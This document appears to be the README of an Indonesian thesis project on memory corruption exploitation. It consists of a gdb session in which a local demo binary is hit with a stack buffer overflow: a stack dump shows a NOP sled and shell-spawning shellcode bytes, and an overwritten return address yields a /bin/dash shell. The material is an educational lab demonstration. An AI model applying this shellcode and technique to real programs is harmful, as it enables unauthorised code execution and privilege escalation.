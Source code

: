 # Proyek Tugas Akhir
Dengan judul <b>Model Eksploitasi Memory Corruption Vulnerabilities di Modern System</b>

Klasik binary exploitation di Ubuntu 16.04

---

<h4>Stack Buffer Overflow</h4>
<pre>
  % gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) r `./exploit 0xffffffff`
Starting program: /home/febri/projek/tugas-akhir/kode-program/compiled-binary/demo/bof `./exploit 0xffffffff`
eip di fungsi main() pada stack frame ada pada alamat 0xbfffec20
kamu mengatakan : �����������������������������������1ۉذ̀1ۉذ.̀1�Rhn/shh//bi��Rfh-i��RQS��j
                                                                                         X̀jX1�̀����������������������������

Program received signal SIGSEGV, Segmentation fault.
0xffffffff in ?? ()
(gdb) i r $esp
esp            0xbfffec80	0xbfffec80
(gdb) x/1000bx 0xbfffec00
0xbfffec00:	0x70	0xa5	0xe7	0xb7	0x1e	0xec	0xff	0xbf
0xbfffec08:	0x00	0xe0	0xfa	0xb7	0x75	0x56	0xe4	0xb7
0xbfffec10:	0x7e	0x84	0x04	0x08	0x4a	0x85	0x04	0x08
0xbfffec18:	0x1e	0xec	0xff	0xbf	0x17	0x2f	0x90	0x90
0xbfffec20:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec28:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec30:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec38:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffec40:	0x90	0x31	0xdb	0x89	0xd8	0xb0	0x17	0xcd
0xbfffec48:	0x80	0x31	0xdb	0x89	0xd8	0xb0	0x2e	0xcd
0xbfffec50:	0x80	0x31	0xd2	0x52	0x68	0x6e	0x2f	0x73
0xbfffec58:	0x68	0x68	0x2f	0x2f	0x62	0x69	0x89	0xe3
0xbfffec60:	0x52	0x66	0x68	0x2d	0x69	0x89	0xe1	0x52
0xbfffec68:	0x51	0x53	0x89	0xe1	0x6a	0x0b	0x58	0xcd
0xbfffec70:	0x80	0x6a	0x01	0x58	0x31	0xdb	0xcd	0x80
0xbfffec78:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec80:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec88:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffec90:	0xff	0xff	0xff	0xff	0x00	0x00	0x00	0x00
0xbfffec98:	0x00	0xe0	0xfa	0xb7	0x04	0xfc	0xff	0xb7
0xbfffeca0:	0x00	0xf0	0xff	0xb7	0x00	0x00	0x00	0x00
0xbfffeca8:	0x00	0xe0	0xfa	0xb7	0x00	0xe0	0xfa	0xb7
0xbfffecb0:	0x00	0x00	0x00	0x00	0xb7	0xfa	0x0e	0xe5
0xbfffecb8:	0xa7	0x14	0x5c	0xd8	0x00	0x00	0x00	0x00
0xbfffecc0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffecc8:	0x02	0x00	0x00	0x00	0x40	0x83	0x04	0x08
0xbfffecd0:	0x00	0x00	0x00	0x00	0x10	0x00	0xff	0xb7
0xbfffecd8:	0x80	0xa8	0xfe	0xb7	0x00	0xf0	0xff	0xb7
0xbfffece0:	0x02	0x00	0x00	0x00	0x40	0x83	0x04	0x08
0xbfffece8:	0x00	0x00	0x00	0x00	0x61	0x83	0x04	0x08
0xbfffecf0:	0x3b	0x84	0x04	0x08	0x02	0x00	0x00	0x00
0xbfffecf8:	0x14	0xed	0xff	0xbf	0x90	0x84	0x04	0x08
0xbfffed00:	0xf0	0x84	0x04	0x08	0x80	0xa8	0xfe	0xb7
0xbfffed08:	0x0c	0xed	0xff	0xbf	0x18	0xf9	0xff	0xb7
0xbfffed10:	0x02	0x00	0x00	0x00	0x30	0xef	0xff	0xbf
0xbfffed18:	0x75	0xef	0xff	0xbf	0x00	0x00	0x00	0x00
0xbfffed20:	0xec	0xef	0xff	0xbf	0xfb	0xef	0xff	0xbf
0xbfffed28:	0x0d	0xf0	0xff	0xbf	0x2b	0xf0	0xff	0xbf
0xbfffed30:	0x4e	0xf0	0xff	0xbf	0x59	0xf0	0xff	0xbf
0xbfffed38:	0x7b	0xf0	0xff	0xbf	0x8d	0xf0	0xff	0xbf
0xbfffed40:	0xa4	0xf0	0xff	0xbf	0xd0	0xf0	0xff	0xbf
0xbfffed48:	0x03	0xf1	0xff	0xbf	0x24	0xf1	0xff	0xbf
0xbfffed50:	0x32	0xf1	0xff	0xbf	0x41	0xf1	0xff	0xbf
0xbfffed58:	0x55	0xf1	0xff	0xbf	0x68	0xf1	0xff	0xbf
---Type <return> to continue, or q <return> to quit---
0xbfffed60:	0x29	0xf2	0xff	0xbf	0x40	0xf2	0xff	0xbf
0xbfffed68:	0x55	0xf2	0xff	0xbf	0x67	0xf2	0xff	0xbf
0xbfffed70:	0x79	0xf2	0xff	0xbf	0x8f	0xf2	0xff	0xbf
0xbfffed78:	0xa3	0xf2	0xff	0xbf	0xdd	0xf2	0xff	0xbf
0xbfffed80:	0x06	0xf3	0xff	0xbf	0x29	0xf3	0xff	0xbf
0xbfffed88:	0x44	0xf3	0xff	0xbf	0x56	0xf3	0xff	0xbf
0xbfffed90:	0x76	0xf3	0xff	0xbf	0x91	0xf3	0xff	0xbf
0xbfffed98:	0xa3	0xf3	0xff	0xbf	0xba	0xf3	0xff	0xbf
0xbfffeda0:	0xfe	0xf3	0xff	0xbf	0x34	0xf4	0xff	0xbf
0xbfffeda8:	0x78	0xf4	0xff	0xbf	0x9b	0xf4	0xff	0xbf
0xbfffedb0:	0xb2	0xf4	0xff	0xbf	0xd1	0xf4	0xff	0xbf
0xbfffedb8:	0xe4	0xf4	0xff	0xbf	0xef	0xf4	0xff	0xbf
0xbfffedc0:	0x1c	0xf5	0xff	0xbf	0x61	0xf5	0xff	0xbf
0xbfffedc8:	0x72	0xf5	0xff	0xbf	0x8a	0xf5	0xff	0xbf
0xbfffedd0:	0x9c	0xf5	0xff	0xbf	0xad	0xf5	0xff	0xbf
0xbfffedd8:	0xc0	0xf5	0xff	0xbf	0xf4	0xf5	0xff	0xbf
0xbfffede0:	0x6f	0xf6	0xff	0xbf	0x7e	0xf6	0xff	0xbf
0xbfffede8:	0x9b	0xf6	0xff	0xbf	0xcc	0xf6	0xff	0xbf
0xbfffedf0:	0xdd	0xf6	0xff	0xbf	0xfc	0xf6	0xff	0xbf
0xbfffedf8:	0x10	0xf7	0xff	0xbf	0x42	0xf7	0xff	0xbf
0xbfffee00:	0x4a	0xf7	0xff	0xbf	0x5c	0xf7	0xff	0xbf
0xbfffee08:	0x67	0xf7	0xff	0xbf	0x76	0xf7	0xff	0xbf
0xbfffee10:	0x90	0xf7	0xff	0xbf	0xa4	0xf7	0xff	0xbf
0xbfffee18:	0xbe	0xf7	0xff	0xbf	0xd3	0xf7	0xff	0xbf
0xbfffee20:	0x0f	0xf8	0xff	0xbf	0x22	0xf8	0xff	0xbf
0xbfffee28:	0x3b	0xf8	0xff	0xbf	0x83	0xf8	0xff	0xbf
0xbfffee30:	0x9e	0xf8	0xff	0xbf	0xa9	0xf8	0xff	0xbf
0xbfffee38:	0xb1	0xf8	0xff	0xbf	0xc6	0xf8	0xff	0xbf
0xbfffee40:	0xe6	0xf8	0xff	0xbf	0x6e	0xfe	0xff	0xbf
0xbfffee48:	0x8d	0xfe	0xff	0xbf	0xa6	0xfe	0xff	0xbf
0xbfffee50:	0xd4	0xfe	0xff	0xbf	0xec	0xfe	0xff	0xbf
0xbfffee58:	0x21	0xff	0xff	0xbf	0x5b	0xff	0xff	0xbf
0xbfffee60:	0xa2	0xff	0xff	0xbf	0xab	0xff	0xff	0xbf
0xbfffee68:	0x00	0x00	0x00	0x00	0x20	0x00	0x00	0x00
0xbfffee70:	0xc8	0xab	0xfd	0xb7	0x21	0x00	0x00	0x00
0xbfffee78:	0x00	0xa0	0xfd	0xb7	0x10	0x00	0x00	0x00
0xbfffee80:	0xff	0xfb	0x8b	0x17	0x06	0x00	0x00	0x00
0xbfffee88:	0x00	0x10	0x00	0x00	0x11	0x00	0x00	0x00
0xbfffee90:	0x64	0x00	0x00	0x00	0x03	0x00	0x00	0x00
0xbfffee98:	0x34	0x80	0x04	0x08	0x04	0x00	0x00	0x00
0xbfffeea0:	0x20	0x00	0x00	0x00	0x05	0x00	0x00	0x00
0xbfffeea8:	0x09	0x00	0x00	0x00	0x07	0x00	0x00	0x00
0xbfffeeb0:	0x00	0xb0	0xfd	0xb7	0x08	0x00	0x00	0x00
0xbfffeeb8:	0x00	0x00	0x00	0x00	0x09	0x00	0x00	0x00
---Type <return> to continue, or q <return> to quit---
0xbfffeec0:	0x40	0x83	0x04	0x08	0x0b	0x00	0x00	0x00
0xbfffeec8:	0xe8	0x03	0x00	0x00	0x0c	0x00	0x00	0x00
0xbfffeed0:	0xe8	0x03	0x00	0x00	0x0d	0x00	0x00	0x00
0xbfffeed8:	0xe8	0x03	0x00	0x00	0x0e	0x00	0x00	0x00
0xbfffeee0:	0xe8	0x03	0x00	0x00	0x17	0x00	0x00	0x00
0xbfffeee8:	0x00	0x00	0x00	0x00	0x19	0x00	0x00	0x00
0xbfffeef0:	0x1b	0xef	0xff	0xbf	0x1f	0x00	0x00	0x00
0xbfffeef8:	0xb7	0xff	0xff	0xbf	0x0f	0x00	0x00	0x00
0xbfffef00:	0x2b	0xef	0xff	0xbf	0x00	0x00	0x00	0x00
0xbfffef08:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffef10:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbfffef18:	0x00	0x00	0x00	0x7a	0x5e	0x04	0xd8	0xfd
0xbfffef20:	0x6b	0x0d	0xe4	0xb6	0x78	0x9b	0x87	0x87
0xbfffef28:	0x54	0x05	0x5c	0x69	0x36	0x38	0x36	0x00
0xbfffef30:	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x66	0x65
0xbfffef38:	0x62	0x72	0x69	0x2f	0x70	0x72	0x6f	0x6a
0xbfffef40:	0x65	0x6b	0x2f	0x74	0x75	0x67	0x61	0x73
0xbfffef48:	0x2d	0x61	0x6b	0x68	0x69	0x72	0x2f	0x6b
0xbfffef50:	0x6f	0x64	0x65	0x2d	0x70	0x72	0x6f	0x67
0xbfffef58:	0x72	0x61	0x6d	0x2f	0x63	0x6f	0x6d	0x70
0xbfffef60:	0x69	0x6c	0x65	0x64	0x2d	0x62	0x69	0x6e
0xbfffef68:	0x61	0x72	0x79	0x2f	0x64	0x65	0x6d	0x6f
0xbfffef70:	0x2f	0x62	0x6f	0x66	0x00	0x90	0x90	0x90
0xbfffef78:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef80:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef88:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef90:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffef98:	0x31	0xdb	0x89	0xd8	0xb0	0x17	0xcd	0x80
0xbfffefa0:	0x31	0xdb	0x89	0xd8	0xb0	0x2e	0xcd	0x80
0xbfffefa8:	0x31	0xd2	0x52	0x68	0x6e	0x2f	0x73	0x68
0xbfffefb0:	0x68	0x2f	0x2f	0x62	0x69	0x89	0xe3	0x52
0xbfffefb8:	0x66	0x68	0x2d	0x69	0x89	0xe1	0x52	0x51
0xbfffefc0:	0x53	0x89	0xe1	0x6a	0x0b	0x58	0xcd	0x80
0xbfffefc8:	0x6a	0x01	0x58	0x31	0xdb	0xcd	0x80	0xff
0xbfffefd0:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffefd8:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
0xbfffefe0:	0xff	0xff	0xff	0xff	0xff	0xff	0xff	0xff
(gdb) r `./exploit 0xbfffef80`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/febri/projek/tugas-akhir/kode-program/compiled-binary/demo/bof `./exploit 0xbfffef80`
eip di fungsi main() pada stack frame ada pada alamat 0xbfffec20
kamu mengatakan : �����������������������������������1ۉذ̀1ۉذ.̀1�Rhn/shh//bi��Rfh-i��RQS��j
                                                                                         X̀jX1�̀����������������������������
process 12451 is executing new program: /bin/dash
$ 
  </pre>
